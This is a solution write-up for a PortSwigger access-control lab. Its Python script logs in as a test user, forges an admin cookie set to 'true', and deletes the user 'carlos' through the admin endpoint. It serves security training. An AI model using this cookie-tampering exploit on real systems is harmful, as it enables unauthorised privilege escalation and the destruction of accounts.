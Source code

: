 # Lab: User role controlled by request parameter

Link to lab: https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0a9a0063037d62f5c0313b2400980052.web-security-academy.net/'

session = requests.Session()

response = session.get(
    url + 'login',
    verify=False,
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'wiener',
    'password': 'peter',
}

response = session.post(
    'https://0a9a0063037d62f5c0313b2400980052.web-security-academy.net/login',
    data=data,
    verify=False,
    allow_redirects=False
)

admin = response.headers['Set-Cookie'].split(';')[0].split('=')[0]
session = response.headers['Set-Cookie'].split(';')[2].split('=')[1]


cookies = {
    admin : 'true',
    'session': session
}


response = requests.get(
    url + 'admin/delete?username=carlos',
    cookies=cookies,
    verify= False
)

print(response.text)
```